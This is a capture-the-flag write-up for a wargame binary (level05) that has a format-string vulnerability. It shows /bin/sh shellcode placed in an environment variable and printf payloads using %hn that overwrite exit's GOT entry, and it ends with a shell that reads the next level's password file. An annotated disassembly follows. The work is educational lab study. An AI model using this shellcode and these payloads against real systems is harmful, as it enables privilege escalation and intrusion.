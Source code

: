 # LEVEL05
**Info: level protect option**
```sh
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```
---
```sh
level05@OverRide:~$ ls -la
total 17
dr-xr-x---+ 1 level05 level05   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level05 level05  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level05 level05 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level06 users   5176 Sep 10  2016 level05
-rw-r--r--+ 1 level05 level05   41 Oct 19  2016 .pass
-rw-r--r--  1 level05 level05  675 Sep 10  2016 .profile
level05@OverRide:~$ ./level05 
42
42
level05@OverRide:~$ ./level05 
42 42 42
42 42 42
```
We can find one excutable file **level05**, who works like cat, take standard input and directly prints it in the terminal. \
Check it with GDB. \
\
The code itself looks very simple also we can notice ```format string vulnerability``` at ```main+195``` \
```sh
(gdb) disas main
   ...
   0x08048500 <+188>:   lea    0x28(%esp),%eax # str[100]
   0x08048504 <+192>:   mov    %eax,(%esp)
   0x08048507 <+195>:   call   0x8048340 <printf@plt> # printf(str) @ vulnerability @
   0x0804850c <+200>:   movl   $0x0,(%esp)
   ...
```
There is no system call or any similar function, so we will inject our shell code and try to run. \
First let's lookup our stack and find the offset we can overwrite.
```sh
level05@OverRide:~$ ./level05 
bbbb %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
bbbb 64 f7fcfac0 f7ec3add ffffd66f ffffd66e 0 ffffffff ffffd6f4 f7fdb000 62626262 20782520 25207825 78252078 20782520 25207825
```
The offset is 10. Now we will try to overwrite GOT of exit function. To find address of exit function
```sh
(gdb) x/i 0x8048370
   0x8048370 <exit@plt>:        jmp    *0x80497e0
```
The GOT address of ```exit``` is ```0x80497e0``` \
Let's prepare our shell code by saving it inside the environment variable.
```sh
level05@OverRide:~$ export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
level05@OverRide:~$ cat /tmp/getenv.c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("SHELLCODE"));
}
level05@OverRide:~$ gcc -m32 /tmp/getenv.c
level05@OverRide:~$ cd /tmp
level05@OverRide:~$ ./a.out
0xffffd892
```
And find it's address by using our c code, ```getenv```. \
So we try put our env ```SHELLCODE``` address in the ```exit()``` got address, \
0xffffd892 = 4294957202, we have to substract 4 'cause already print the address of got.
```sh
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08" + "%4294957198d%10$n"; cat) | ./level05
```
But its not work ! the value of %n was so big, we try another way. \
There is options ```%n``` like ```%hn```, ```%hhn```. we try to solve the problem with using ```%hn```. \
We split exactly half the address of env, ```0xffff```, ```0xd892```. \
and by following the little endian form,

|   format    | first  |  last  |
| :---------: | :----: | :----: |
|   **hex**   | 0xd892 | 0xffff |
| **decimal** | 55442  | 65535  |

**First half  :**	$55442 - 8 		   = 55434$\
**Last half :**	$65535 - 55442 - 8 = 10085$
```sh
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55442d%10$hn" + "%10085d%11$hn"'; cat) | ./level05
...
whoami
level06
cat /home/users/level06/.pass
(hidden)
```
level05 passed !

assmebly analyze
---

```sh
(gdb) disas main
Dump of assembler code for function main:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     push   %edi
   0x08048448 <+4>:     push   %ebx
   0x08048449 <+5>:     and    $0xfffffff0,%esp
   0x0804844c <+8>:     sub    $0x90,%esp # 144
   0x08048452 <+14>:    movl   $0x0,0x8c(%esp) # i = 0 
   0x0804845d <+25>:    mov    0x80497f0,%eax # stdin
   0x08048462 <+30>:    mov    %eax,0x8(%esp)
   0x08048466 <+34>:    movl   $0x64,0x4(%esp) # 100
   0x0804846e <+42>:    lea    0x28(%esp),%eax # str[100]
   0x08048472 <+46>:    mov    %eax,(%esp)
   0x08048475 <+49>:    call   0x8048350 <fgets@plt> # fgets(str, 100, stdin)
   0x0804847a <+54>:    movl   $0x0,0x8c(%esp)
   0x08048485 <+65>:    jmp    0x80484d3 <main+143> # loop start
   0x08048487 <+67>:    lea    0x28(%esp),%eax # str[100]
   0x0804848b <+71>:    add    0x8c(%esp),%eax # str[i]
   0x08048492 <+78>:    movzbl (%eax),%eax
   0x08048495 <+81>:    cmp    $0x40,%al # 64
   0x08048497 <+83>:    jle    0x80484cb <main+135>
   0x08048499 <+85>:    lea    0x28(%esp),%eax # str[100]
   0x0804849d <+89>:    add    0x8c(%esp),%eax # var i
   0x080484a4 <+96>:    movzbl (%eax),%eax
   0x080484a7 <+99>:    cmp    $0x5a,%al # 90
   0x080484a9 <+101>:   jg     0x80484cb <main+135>
   0x080484ab <+103>:   lea    0x28(%esp),%eax # str[100]
   0x080484af <+107>:   add    0x8c(%esp),%eax # var i
   0x080484b6 <+114>:   movzbl (%eax),%eax
   0x080484b9 <+117>:   mov    %eax,%edx
   0x080484bb <+119>:   xor    $0x20,%edx # str[i] ^ 32
   0x080484be <+122>:   lea    0x28(%esp),%eax # str[100]
   0x080484c2 <+126>:   add    0x8c(%esp),%eax # var i
   0x080484c9 <+133>:   mov    %dl,(%eax) # save xor result str[i] ^= 32
   0x080484cb <+135>:   addl   $0x1,0x8c(%esp) # i++
   0x080484d3 <+143>:   mov    0x8c(%esp),%ebx # var i
   0x080484da <+150>:   lea    0x28(%esp),%eax # str[100]
   0x080484de <+154>:   movl   $0xffffffff,0x1c(%esp)
   0x080484e6 <+162>:   mov    %eax,%edx # str[100]
   0x080484e8 <+164>:   mov    $0x0,%eax # 0
   0x080484ed <+169>:   mov    0x1c(%esp),%ecx # 0xffffffff
   0x080484f1 <+173>:   mov    %edx,%edi # str
   0x080484f3 <+175>:   repnz scas %es:(%edi),%al # strlen(str)
   0x080484f5 <+177>:   mov    %ecx,%eax 	# strlen ex)
   0x080484f7 <+179>:   not    %eax		 	# 0x0011 = 2 "hi\0"
   0x080484f9 <+181>:   sub    $0x1,%eax 	# 0x1111 - 0x0011 = 0x1100 ~ => 0x0011 - 1 = 0x0010
   0x080484fc <+184>:   cmp    %eax,%ebx # i < strlen(str)
   0x080484fe <+186>:   jb     0x8048487 <main+67>
   0x08048500 <+188>:   lea    0x28(%esp),%eax # str[100]
   0x08048504 <+192>:   mov    %eax,(%esp)
   0x08048507 <+195>:   call   0x8048340 <printf@plt> # printf(str) @ vulnerability @
   0x0804850c <+200>:   movl   $0x0,(%esp)
   0x08048513 <+207>:   call   0x8048370 <exit@plt> # exit(0)
End of assembler dump.
```